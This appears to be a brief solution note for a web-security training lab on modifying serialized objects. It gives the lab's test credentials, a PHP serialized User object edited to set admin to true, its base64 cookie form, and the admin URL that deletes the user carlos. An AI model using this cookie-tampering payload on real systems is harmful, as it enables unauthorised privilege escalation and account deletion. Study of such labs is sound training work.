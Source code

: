 ```
Lab: Modifying serialized objects

APPRENTICE

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
> Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30

/admin/delete?username=carlos

---